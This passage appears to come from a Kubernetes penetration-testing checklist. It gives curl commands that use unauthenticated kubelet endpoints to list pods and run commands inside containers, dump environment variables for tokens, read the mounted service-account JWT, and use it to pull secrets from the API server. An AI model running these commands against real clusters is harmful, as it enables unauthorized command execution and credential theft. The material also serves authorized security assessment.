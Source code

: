 ```
curl -k https://workernode:10250/pods
curl -k https://k8-node:10250/runningpods/
Lists running pods
curl -k https://workernode:10250/exec
Executes a command in a container, and returns a link to view the output.
```

If you get "Unauthorized" well, then anonymous users are not authorized to access the API.
If you get a response to the /pods request, it might mean that it allows anonymous authentication. Which means that you might be able to RCE the pods. By using the `exec` endpoint you can execute commands on other pods.


```
curl -k -XPOST "https://k8-node:10250/run/kube-system/kube-dns-5b1234c4d5-4321/dnsmasq" -d "cmd=ls -la /"

# You can also check the environment variable to see if you can get the kubelet token:
curl -k -XPOST "https://k8-node:10250/run/kube-system/kube-dns-5b1234c4d5-4321/dnsmasq" -d "cmd=env"
```

For reference on how to exploit this see: http://carnal0wnage.attackresearch.com/2019/01/kubernetes-unauth-kublet-api-10250_16.html

- [ ] Check kubelet port 10255 (read only) for information disclosure

Kubelet is running on  port 10255, but is read-only. It is nothing to report if it is only available on the inside of the cluster, but it should not be exposed externally. It can still be useful to an attacker inside the cluster, as a way to gather information.

```
curl -k http://10.36.2.1:10255/pods
```


- [ ] Check for Service account secret / token

If no service account is specified for a Pod, the Pod is automatically assigned the default service account in the namespace.

Each pod is provided with a service account by default. The extent of the priviliges that is given to that account is configurable. So it is best to just verify it by testing it.
The secret token is created and put in a volume that is automatically mounted to pods with the default service account.
You can access the service account token (A JWT) in the Pod at the following path:

```
/var/run/secrets/kubernetes.io/serviceaccount/token
```

You can take the JWT and try to authenticate to the `kube-apiserver` like this:
Note that the port can be 443 or 6443. So try both.

```
curl -k -H "Authorization: Bearer eyJhbG[...] " https://<masternode ip>:443/api/v1/namespaces/default/secrets
```

